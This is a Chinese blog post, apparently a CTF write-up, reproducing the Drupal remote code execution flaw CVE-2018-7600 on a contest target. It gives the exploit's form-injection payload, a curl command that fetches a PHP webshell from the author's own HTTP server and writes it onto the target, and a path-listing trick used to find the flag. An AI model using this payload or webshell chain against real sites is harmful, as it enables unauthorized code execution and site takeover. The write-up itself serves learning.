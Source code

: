 ```yaml
---
layout:     post
title:      记之前的一次校赛题
date:       2018-12-14
author:     Wh0ale
header-img: img/wallhaven-716968.png
catalog: true
tags:
    - CVE
    - drupal
---
```


无聊翻起了以前的CSDN博客，发现之前做校赛题遇到的CVE-2018-7600挺有意思的，也是从那次校赛后就不怎么打CTF了，最近要重新变成赛棍，把文章贴上，记录一下。

前几天做题遇到drupal cms的时候始终没想到如何拿下这个站点，后来经过百度以及表哥给的wp知道还有CVE-2018-7600这个漏洞

这篇文章主要记录下该漏洞的复现过程

 ![img](https://img-blog.csdn.net/20180514144402799?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzM3NDM4NDE4/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

靶场如上,我看到这个网站当时是懵逼的，我以为会出dz，dede，thinkphp那些常见网站模版，没想一下跳出个drupal。这时候的心情是懵逼的，果然无知限制了我的想象。

然后

我扫目录无果

找注入无果

爆路径无果

....于是放弃了

然后第二天看了wp才发现原来那么简单

网上就有现成的exp（我传到了资源了）

payload:

```
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}
```



模拟登陆框：

echo ";-)" | tee hello.txt	的意思是：输入;-)到hello.txt

tee的意思是存在缓存机制，每1024个字节将输出一次。若从管道接收输入数据，应该是缓冲区满，才将数据转存到指定的文件中。若文件内容不到1024个字节，则接收完从标准输入设备读入的数据后，将刷新一次缓冲区，并转存数据到指定文件。

同理这里可以输入一句话到hello.txt中

![img](https://img-blog.csdn.net/20180514145549123?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzM3NDM4NDE4/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



![img](https://img-blog.csdn.net/20180514145805150?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzM3NDM4NDE4/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

这里我们传一句话的时候会被过滤，所以我们只能以curl形式上传

![img](https://img-blog.csdn.net/20180514150451630?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzM3NDM4NDE4/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

![img](https://img-blog.csdn.net/20180514150505980?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzM3NDM4NDE4/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)





全都成功上传了，但是菜刀链接不上

这里需要注意的是exp用python3写的，在python2.7无法执行，换到kali即刻成功执行

![img](https://img-blog.csdn.net/20180514145412301?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzM3NDM4NDE4/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



通过python开端口

```python -m SimpleHTTPServer 8000
python -m SimpleHTTPServer 8000
```

![img](https://img-blog.csdn.net/20180514222741940?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzM3NDM4NDE4/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)curl上传：'curl http://192.168.211.131/dama1.php | tee haha1.php'(这里我上传的dama2输入密码无法解析，有时候大马在本地也搭建成功但不一定有效，多尝试)

![img](https://img-blog.csdn.net/20180514222725301?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzM3NDM4NDE4/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

另一种方法拿flag是

'../../../../../etc/ | tee 2.txt'          可以看到网站目录有啥 即可拿到flag

复现到此结束，欢迎大家加我学习

参考：

[Drupal核心远程代码执行漏洞分析报告](https://cert.360.cn/report/detail?id=c92cfff2634a44c8b1d6bd5e64c07f3d)

[漏洞分析 Drupal远程代码执行漏洞(CVE-2018-7600)分析](http://blog.nsfocus.net/cve-2018-7600-analysis/)

[云鼎实验室：Drupal CVE-2018-7600 分析及 PoC 构造](https://paper.seebug.org/567/)

[exp](https://github.com/a2u/CVE-2018-7600)

---------------------
作者：Wh0ale 
来源：CSDN 
原文：https://blog.csdn.net/m0_37438418/article/details/80309434 
版权声明：本文为博主原创文章，转载请附上博文链接！

